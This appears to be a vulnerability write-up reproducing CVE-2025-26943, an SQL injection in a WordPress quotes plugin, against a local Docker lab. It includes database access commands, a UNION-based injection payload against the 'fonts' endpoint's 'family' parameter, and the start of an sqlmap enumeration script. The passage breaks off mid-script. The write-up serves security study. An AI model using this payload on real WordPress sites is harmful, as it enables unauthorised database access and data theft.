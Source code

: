 according to `docker ps` this is the name of the database `cve-2025-26943_db_1`
![Image](/images/cve-2025-26943/database.png)

We will access the database container.
```sh
docker exec -it cve-2025-26943_db_1 bash
```
![Image](/images/cve-2025-26943/db1.png)

Then access the database with the credentials we put in docker-compose.yml file (WordPressUser:P@ssw0rd )
```sh
mysql -u WordPressUser -p
```
![Image](/images/cve-2025-26943/db2.png)

![Image](/images/cve-2025-26943/db3.png)

From the debug.log file this is the table that we want `wp_easy-quotes-families`
From desribing the table `wp_easy-quotes-families` we see that it has five columns
![Image](/images/cve-2025-26943/db4.png)

Now that we’ve determined the number of columns, let’s proceed with the SQL injection steps.

**anything'  Union All Select 1,2,3,4,5 -- -**
As shown in the image the 2,3,4 columns are reflected
![Image](/images/cve-2025-26943/db5.png)

![Image](/images/cve-2025-26943/db6.png)

So we discovered that the the `fonts` endpoint with the `family` parameter is vulnerable to SQL injection

I will now try to collect all the parameters and endpoints and pass them to sqlmap to see if i can find another vulnerable endpoint

To collect all the parameters i will use this command
```sh
grep 'get_param' includes/quotes-rest-route.php | cut -d "'" -f2 | sort -u
```
![Image](/images/cve-2025-26943/parameters.png)

You will see in the file that endpoints are in comment afte `Response for` keyword 
```sh
grep 'Response for' includes/quotes-rest-route.php
```
![Image](/images/cve-2025-26943/endpoints.png)
```
http://localhost:8000/wp-json/layart/v1/quotes
http://localhost:8000/wp-json/layart/v1/titles
http://localhost:8000/wp-json/layart/v1/categories
http://localhost:8000/wp-json/layart/v1/fonts
http://localhost:8000/wp-json/layart/v1/fonts-categories
http://localhost:8000/wp-json/layart/v1/font-variants
```
I used this bash script to iterate every parameter on every endpoint
```php
#!/bin/bash

# List of endpoints
endpoints=(
  "http://localhost:8000/wp-json/layart/v1/quotes"
  "http://localhost:8000/wp-json/layart/v1/titles"
  "http://localhost:8000/wp-json/layart/v1/categories"
  "http://localhost:8000/wp-json/layart/v1/fonts"
```